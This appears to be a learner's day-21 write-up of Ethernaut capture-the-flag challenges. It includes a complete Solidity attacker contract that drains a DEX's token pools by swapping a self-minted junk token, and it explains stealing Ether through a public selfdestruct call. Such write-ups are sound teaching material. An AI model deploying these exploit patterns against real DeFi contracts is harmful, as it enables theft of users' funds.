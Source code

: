 ## Day 21

### Ethernaut #23 Dex2

This is a similar to an exercise we did using Echidna, also an Ethernaut challenge called Dex.  The main contract DexTwo is a DEX or decentralized exhcnage.  The problem with the first challenge was in the ```getSwapAmount()``` method, so let's compare those from the two challenges.

```Java
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

Let's take a look at this function in the previous challenge: 

```Java
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The first challenge has an extra require statement: 

```Java
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

Without this staement we should be able to trade any tokens we want.  We will create a bogus coin, mint all the supply to ourselves and use this to drain the DEX.  Code to accomplish this is below.  

```Java
  contract Attacker{
      DexTwo immutable public dex;
      SwappableTokenTwo immutable junkcoin;
      address public token1;
      address public token2;

      constructor(address _dexAdd){
        dex = DexTwo(_dexAdd);
        junkcoin = new SwappableTokenTwo(_dexAdd, "junkcoin", "Junk", 1_000_000);
      }

      function attack() external {
        token1 = dex.token1();
        token2 = dex.token2();

        // add liquidity, so that DEx junkcoin balance is nonzero, we can't use dex.addLiqudity()
        junkcoin.transfer(address(dex), 100);

        // empty first coin
        junkcoin.approve(address(this), address(dex), 100);
        dex.swap(address(junkcoin), address(token1), 100);

        // now Dex has 200 junkcoins and 100 token2, so the swap ratio will be 1/2
        junkcoin.approve(address(this), address(dex), 200);
        dex.swap(address(junkcoin), address(token2), 200);
      }
  }
```

A few details should be metnioned.  We first create a new ERC20 token and mint some supply.  The minimum we need is 400 tokens. After the tokens are minted we need to transfer 100 tokens to the DEX. If we don't then we will get a divide by 0 error during ```getSwapAmount()```.   The DEX ```.addliquitidy()``` method cannot be used becuase it has the ```onlyOwner()``` modifier.  We will use the token's ```.tranfer()``` instead.  After this we can do a one for one swap for token1, then the DEX will have a balance of 200 junkcoins and we will need to send 200 junkcoins for 100 token2.  

### Ethernaut #17 (Recovery)

In this challenge the contract owner has created a token factory.  The tokens will take Ether as collateral and return tokens based on the colaterial sent.  There is no bonding curve.  The onwer sent 0.001 Ether to the contract.  The owner has forgotten the address of this contract and would like to get his Ether back.  Our objective is to retreive the 0.001 Ether.  Relevant parts of the contract are below.  

```Java
  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
```

The exploit lies in the ```destroy()``` method.  This is public, so anyone can call it, probably a bad idea. ```destroy()``` calls  ```selfdestruct()```.  ```selfdestruct()``` will destroy the contract and send the remaining balance to an address, all we have to do is specify our own address in a call to ```destroy()```.  


### Damn Vulnerable DeFi #2 Naive Receiver

